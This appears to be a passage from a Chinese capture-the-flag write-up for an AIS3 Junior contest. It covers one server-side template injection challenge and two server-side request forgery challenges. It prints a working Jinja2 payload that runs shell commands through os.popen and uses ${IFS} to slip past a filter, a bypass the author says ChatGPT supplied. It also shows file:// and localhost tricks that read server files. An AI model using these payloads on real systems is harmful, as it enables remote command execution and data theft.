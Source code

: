 ### STI03
### Step1
輸入相同模板，發現系統有擋:D
![image](https://hackmd.io/_uploads/ryPDwRAcA.png)
### Step2:
問chatGPT發現能夠以以下方式獲得相同效果
```tamplate=
{% set cmd = self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat${IFS}FLAG').read() %}{%print(cmd)%}
```
直接輸入便獲得FLAG
### FLAG：AIS3_Junior{%.__Advanced\|attr("SSTI${IFS}FilterEvasion")__.%}
![image](https://hackmd.io/_uploads/S1rwd0AqR.png)

![image](https://hackmd.io/_uploads/SJwfOAC9A.png)

## 08-Server-Side_Request_Forgery
### SRF01
### Step1:
根據題目給的路徑```/app/FLAG```，加上這邊能夠輸入網址，因此嘗試以file:// 讀取該檔案
![image](https://hackmd.io/_uploads/BygCeA05A.png)
### Step2:
根據回傳值，即可看到FLAG的Base64編碼，進行解碼後即可獲得FLAG
### FLAG：AIS3_Junior{file://SSRF___XDDD}
![image](https://hackmd.io/_uploads/BkW6Z0R5R.png)

### SRF02

### Step1:
進入網站後發現ADMIN PANEL，進入後發現他說LOCAL ACCESS ONLY
![image](https://hackmd.io/_uploads/B1LhzAR5R.png)
![image](https://hackmd.io/_uploads/H1agm0050.png)
### Step2:
嘗試輸入localhost利用local端連線至該網站，圖片回傳值即有FLAG
### FLAG：AIS3_Junior{http://BROAccessLOCAL}
![image](https://hackmd.io/_uploads/HJrVQRC5R.png)
![image](https://hackmd.io/_uploads/S1LqmCRcA.png)
